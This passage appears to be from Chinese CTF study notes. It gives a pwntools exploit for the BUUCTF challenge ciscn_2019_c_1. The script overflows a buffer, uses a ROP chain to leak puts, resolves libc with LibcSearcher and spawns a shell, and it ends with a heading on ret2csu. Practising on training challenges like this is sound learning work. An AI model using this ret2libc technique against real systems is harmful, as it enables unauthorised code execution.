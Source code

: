 

## 64位

```python
#题目来自Buuctf ciscn_2019_c_1
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
#p = remote('node5.buuoj.cn',28352)
p = process('./ciscn_2019_c_1')
elf = ELF('./ciscn_2019_c_1')
#libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
#gdb.attach(p)

pop_rdi=0x400c83
ret_addr=0x4006b9
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
#第一次溢出，ROP出puts的真实地址
p.sendlineafter('choice!\n',b'1')
payload = flat('\0',b'A'*0x57,p64(pop_rdi),p64(puts_got),p64(puts_plt),(main_addr))
p.sendlineafter('encrypted\n',payload)
puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) #接收puts地址
########本地libc找地址#########
#libc_put = libc.sym['puts']
#base = puts_addr-libc_put
#libc_system = libc.sym['system']
#system_addr = libc_system
#libc_bin = 0x19604F
#bin_sh = base +libc_bin
##############################

#利用LibcSearcher找到地址
libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts') #基地址
system_addr = base+libc.dump('system')
bin_sh = base+libc.dump('str_bin_sh')

#二次溢出，取shell
p.sendlineafter('choice!\n',b'1')
payload2 = flat(b'\0',b'A'*0x57,p64(ret_addr),p64(pop_rdi),p64(bin_sh),p64(system_addr))
p.sendlineafter('encrypted\n',payload2)
p.interactive()
```

# ret2cus

利用初始化函数__libc_csu_init
